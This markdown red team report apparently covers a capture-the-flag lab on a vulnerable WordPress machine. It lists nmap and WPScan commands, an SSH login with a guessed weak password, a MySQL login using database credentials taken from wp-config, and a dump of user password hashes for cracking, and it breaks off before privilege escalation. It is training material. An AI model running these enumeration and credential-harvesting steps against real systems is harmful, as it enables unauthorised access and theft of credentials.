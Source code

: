 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
_TODO: Fill out the information below._

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap 192.168.1.0/24
```

![Nmap Scan Results](/images/nmap%20192_168_1_0.png)

This scan identifies the services below as potential points of entry:
- Target 1 (192.168.1.110)
  - 22/tcp  open  ssh
  - 80/tcp  open  http
  - 111/tcp open  rpcbind
  - 139/tcp open  netbios-ssn
  - 445/tcp open  microsoft-ds

The following vulnerabilities were identified on each target:
- Target 1
  - Weak Passwords
  - WordPress User Enumeration
  - Port 22 open

![wpscan](

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
Target 1
- `flag1: b9bbcb33ellb80be759c4e844862482d`
- Exploit to find users:
    - WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
        - `$ wpscan --url http://192.168.1.110 --enumerate u`
![WP_Scan](/images/03%20wpscan%201.PNG)
- Logging into Target 1 as user Michael
  - Brute force/guessing Michael's password
  - Weak password too easy
  - Password: michael
- Searching directories for Flag 1
  - SSH and directory traversal
  - flag 1 found in /var/www/html folder in root in service.html in a HTML comment at "End of footer area"
        - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd ../`
        - `cd ../`
        - `cd var/www/html`
        - `ls -l`
        - `nano service.html`
![Flag 01](/images/04%20FLAG%2001.PNG)

- `flag2: fc3fd58dcdad9ab23faca6e9a3e581c`
  - Exploit Used
    - `ssh michael@192.168.1.110` 
    - `pw: michael`
    - `cd ../` 
    - `cd ../`
    - `cd var/www`
    - `ls -l`
    - `cat flag2.txt`
![Flag2](images/05%20FLAG%2002.PNG)

- `flag3: afc01ab56b50591e7dccf93122770cd2`
  - Exploit Used
    - SSH and directory traversal
    - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
    - `show databases;`
    - `use wordpress;` 
    - `show tables;`
    - `select * from wp_posts;`
![Flag 03](/images/06%203%20flag.PNG)

- `flag4: 715dea6c055b9fe3337544932f2941ce`
  - Exploit Used
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
      - Once having gained access to the database credentials as Michael from the wp-config.php file, lifting username and password hashes using MySQL was next. 
      - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called hashes.
        - Commands:
          - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1`
          - `show databases;`
          - `use wordpress;`
          - `show tables;`
          - `select * from wp_users;`
![wp_users](/images/08%20wp%20users.png))

